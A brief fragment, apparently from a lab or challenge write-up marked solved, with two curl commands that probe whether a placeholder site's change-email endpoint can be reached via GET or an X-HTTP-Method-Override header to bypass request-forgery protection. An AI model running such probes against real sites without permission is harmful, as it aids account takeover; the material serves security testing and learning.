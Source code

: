 ```bash
# Test if GET works when POST is protected
curl -X GET "https://target.com/change-email?email=test@test.com" \
     -H "Cookie: session=abc123"

# Test method override headers
curl -X POST "https://target.com/change-email" \
     -H "X-HTTP-Method-Override: GET" \
     -d "email=test@test.com"
```

---

**Status:** ✅ Solved
